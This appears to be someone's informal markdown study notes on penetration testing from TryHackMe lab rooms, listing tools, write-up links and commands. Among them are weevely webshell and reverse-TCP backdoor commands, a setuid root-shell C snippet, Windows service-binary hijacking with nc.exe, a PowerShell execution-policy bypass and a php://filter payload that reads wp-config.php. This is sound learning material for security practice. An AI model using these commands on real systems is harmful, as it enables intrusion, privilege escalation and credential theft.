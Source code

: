 # R

* Remember for web/general/security
* .todo: dns discord
* web general | terminology | URL may have to be moved

<hr>

## Oh... no...

* https://github.com/rmusser01/Infosec_Reference

<hr>

## Reaped

* `smbmap -H IP`: see shares, users, files
* RPC 111
* binwalk / binwalk -e (extract)
  * see what there is inside the file (ex: img then zip)
* https://github.com/frizb/Hydra-Cheatsheet
* https://github.com/s0md3v/Decodify
* https://github.com/carlospolop/legion
* export TERM=xterm-256color
* websites
  * https://blog.razrsec.uk/
  * https://stawm.design.blog/
  * https://blog.qz.sg/
  * https://saharshtapi.github.io/
  * https://vitcher97.blogspot.com/
  * https://marcorei7.wordpress.com/
  * https://thefluffy007.com/
  * https://fr33s0ul.tech/
  * https://beginninghacking.net/
  * https://aptx1337.github.io/
  * https://shishirsubedi.com.np/
  * https://hackofalltrades.dev/
  * https://cybersecnerds.com/
  * https://blog.raw.pm/
  * https://nairitya03.github.io/CTF-WriteUps/
  * https://mrash.co/
  * https://robertmuwanga.netlify.app/
  * https://zachkenney.me/
  * https://cybersecbits.com/
  * https://jarrodrizor.com/
  * https://0xv3r4x.github.io/
  * https://www.6rian.com/
  * https://steflan-security.com/
  * https://dailycompute.net/
  * https://ammmy7580.gitbook.io/
  * https://hacking-capture.github.io/
  * https://deltreey.blogspot.com/
  * https://bryce-simpson.netlify.app/
  * https://hambyhacks.github.io/
* https://www.pentesterlab.com/
* https://github.com/epinna/weevely3
  * weevely generate password webshell.php
  * weevely URL/webshell.php password
  * :backdoor_reversetcp IP PORT
  * pwncat -lvv PORT
* https://github.com/nccgroup/GTFOBLookup
* https://null-byte.wonderhowto.com/how-to/bypass-file-upload-restrictions-web-apps-get-shell-0323454/
* rustscan -a $IP -- --script=http-headers
* https://n3t-hunt3r.gitbook.io/pentest-book/web-application-pentesting/file-upload -- https://book.hacktricks.xyz/pentesting-web/file-upload
* https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys

<hr>

## Prev esc

https://tryhackme.com/room/linprivesc
=> If there are tools not installed on your target: https://github.com/andrew-d/static-binaries
=> hint/notes
=> network
* Another alternative to this program, is to create a suite file with a copy of bash.

```c
int main() {
  setgid(0);
  setuid(0);
  system("/bin/bash");
  return 0;
}
```

* https://tryhackme.com/room/windowsprivesc20 (dropped fur now)

<hr>

## Forced Browsing

* https://tryhackme.com/room/webenumerationv2
  * Gobuster options.
  * -k for ssl errors
* Gobuster DNS/VHosts
* Useful wordlists
* nmap `-n` redo
* add a warning + 64th
* `cat /usr/share/wordlists/dirb/extensions_common.txt | tr '\n' ','`
* `gobuster -u` for vhost
* `gobuster vhost -u http://webenum.thm -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -t50 --append-domain` (in new versions of gobuster, false by default)
* NOT FINISHED https://tryhackme.com/room/webenumerationv2

> While participating in rooms on TryHackMe, virtual hosts would be a good way to hide a completely different website if nothing turned up on your main port 80/443 scan.

<hr>

## Overconfidence

--- https://tryhackme.com/room/steelmountain

* use meterpreter upload to upload the winPEAS
* `upload /tmp/xxx`
* `shell`
* `.\winPEASany_ofs.exe`
* `powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck"`
* `powershell -ep bypass -c ". .\PowerUp.ps1;"`
* `https://github.com/itm4n/PrivescCheck#metasploit-timeout`
* `load powershell`
* `powershell_shell`
* `. .\PowerUp.ps1; Invoke-AllChecks`
* `. .\PowerUp.ps1` `PS > Invoke-AllChecks`
* https://www.joesandbox.com/#windows
* https://github.com/EgeBalci/sgn
* sc qc XXX
* sc stop XXX
* `Write-ServiceBinary -Name 'XXX' -Path ".\nc.exe"`
* sc start XXX
* `powershell -c wget "URL" -outfile "OUTPUT"`
* like OTX: https://cyware.com/

--- https://tryhackme.com/room/easyctf 🐍🐍🐍

* `python2 simple.py`
* oh gosh, volatily + `pip install --upgrade setuptools` https://stackoverflow.com/questions/31719816/pip-fails-to-install-anything-error-invalid-command-egg-info
* `print "[+] Specify an url target"`

--- https://tryhackme.com/room/cowboyhacker

* nmap
* FTP exposed
* Hydra ssh
* SUID

--- https://tryhackme.com/room/lazyadmin 🐍🐍🐍

* nmap
* gobuster
* ...

--- https://tryhackme.com/room/startup

* nmap
* gobuster
* ftp
* file upload
* wireshark
* crontab

Others

* If FTP is asking for a password, press enter
* FTP do not seem to work with path (to upload with put, but it works if you start FTP in the directory where the file is)
* Press F12 to go back to penelope UI. You can use upload/download. Go back with `interact 1`
* wireshark `.pcapng`. Then right-click on interesting packets, and click on "follow TCP Stream"
* Proper name for this section whelp 😭

--- https://tryhackme.com/room/allinonemj 🐍🐍🐍

* Test: `wpscan --url http://10.10.162.222/wordpress/ --detection-mode aggressive`
* `php://filter/convert.base64-encode/resource=../../../../../wp-config.php` (file inclusion)